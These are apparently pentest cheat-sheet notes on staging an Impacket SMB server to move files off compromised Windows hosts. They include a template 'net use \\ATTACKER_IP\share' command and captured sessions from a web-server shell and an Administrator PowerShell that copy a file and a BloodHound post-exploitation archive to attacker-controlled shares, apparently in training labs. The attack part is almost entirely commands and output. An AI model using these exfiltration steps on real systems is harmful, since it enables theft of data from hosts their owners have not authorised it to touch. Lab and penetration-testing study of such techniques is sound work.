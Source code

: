 https://vk9-sec.com/smb-server-with-impaket-smbserver/

https://notes.offsec-journey.com/active-directory/windows-priv-esc/file-transfer

### [Simple but obsolete SMB1 protocol and unsafe](#simple-but-obsolete-smb1-protocol-and-unsafe-1)

### [smb2support](#smb2support-1)

### [With Username & Password](#with-username--password-1)


### Simple but obsolete SMB1 protocol and unsafe
```
$ impacket-smbserver sharethis .
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

... waiting for incoming ...
```

### With Username & Password
```
$ impacket-smbserver sharethis . -username listening -password connections

net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 

c:\inetpub\wwwroot\z>net use \\10.10.16.52\sharethis /user:listening connections                                                     
net use \\10.10.16.52\sharethis /user:listening connections                                                                          
The command completed successfully.

c:\inetpub\wwwroot\z>net view \\10.10.16.52                                                                                          
net view \\10.10.16.52                                                                                                               
Shared resources at \\10.10.16.52                                                                                                    
                                                                                                                                     
(null)                                                                                                                               
                                                                                                                                     
Share name  Type  Used as  Comment                                                                                                   
                                                                                                                                     
-------------------------------------------------------------------------------                                                      
SHARETHIS   Disk  (UNC)                                                                                                              
The command completed successfully.



c:\inetpub\wwwroot\z>copy out.txt \\10.10.16.52\sharethis                                                                            
copy out.txt \\10.10.16.52\sharethis                                                                                                 
        1 file(s) copied.                                                                                                            
                                                                                                                                     
c:\inetpub\wwwroot\z> 
```

### smb2support
$ $ smbserver a . -smb2support -username abc -password 123
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
...

PS C:\Users\Administrator> net use \\10.1.1.1\a
Enter the user name for '10.1.1.1': abc
Enter the password for 10.1.1.1: 123
The command completed successfully.

PS C:\Users\Administrator>
PS C:\Users\Administrator> copy .\THM-PostExploit_20230909004059_BloodHound.zip \\10.1.1.1\a
PS C:\Users\Administrator> 